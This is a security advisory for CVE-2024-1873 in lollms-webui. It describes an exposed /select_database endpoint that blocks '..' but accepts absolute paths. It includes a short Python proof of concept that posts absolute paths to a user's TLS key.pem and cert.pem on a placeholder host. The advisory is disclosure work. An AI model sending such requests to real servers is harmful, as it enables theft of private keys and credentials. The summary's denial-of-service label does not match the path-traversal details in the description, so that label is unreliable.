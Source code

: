 ```yaml
---
description: CVE-2024-1873, HIGH, Exposed endpoints in lollms-webui leads to denial of service
title: lollms-webui exposed endpoints DoS
date_published: "2024-04-16"
last_updated: "2024-04-16"
xray_id: JFSA-2024-001028816
vul_id: CVE-2024-1873
cvss: 8.2
severity: high
discovered_by: Naveh Racovsky
type: vulnerability

---
```


## Summary

Exposed endpoints in lollms-webui leads to denial of service

## Component

[parisneo/lollms-webui](https://github.com/parisneo/lollms-webui)

## Affected versions

(,)

## Description

The `/select_database` endpoint is always open, even when the program is exposed to the network. This can have several implications. While at first look the endpoint does implement a basic path traversal protection, by looking for ".." in the filename, it does not prevent absolute path traversal;

## PoC

```bash
// PoC.py
import requests

IP_ADDRESS = "aaa.bbb.ccc.ddd"
PORT = 9600

for file_name in ["key.pem", "cert.pem"]:
    data = {
        "name": f"/home/user/personal_data/certs/{file_name}",
    }
    response = requests.post(f"http://{IP_ADDRESS}:{str(PORT)}/select_database", json=data)
    print(response.json())
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[Advisory](https://huntr.com/bounties/c1cfc0d9-517a-4d0e-bf1c-6444c1fd195d)

